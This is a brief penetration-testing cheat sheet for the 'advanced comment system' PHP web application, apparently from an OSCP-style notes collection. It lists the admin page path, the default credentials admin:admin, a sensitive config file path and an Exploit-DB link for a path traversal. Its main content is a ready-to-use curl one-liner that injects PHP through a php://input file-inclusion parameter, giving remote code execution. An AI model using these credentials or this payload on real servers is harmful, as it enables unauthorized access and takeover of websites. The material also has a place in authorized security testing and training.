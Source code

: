 # advanced comment system

## Admin Path

```bash
/advanced_comment_system/admin.php
```

## Default Credentials

```bash
admin:admin
```

## Interesting Paths

```bash
/config.php
```

## Path Traversal v1.0

```bash
https://www.exploit-db.com/exploits/49343
```

## RCE

v1.0

```bash
# https://pentest.tonyng.net/timo-sablowskis-oscp-note/
curl "IP/advanced_comment_system/admin.php?ACS_path=php://input%00" -s --data "<?system('ls -la');?>"
```
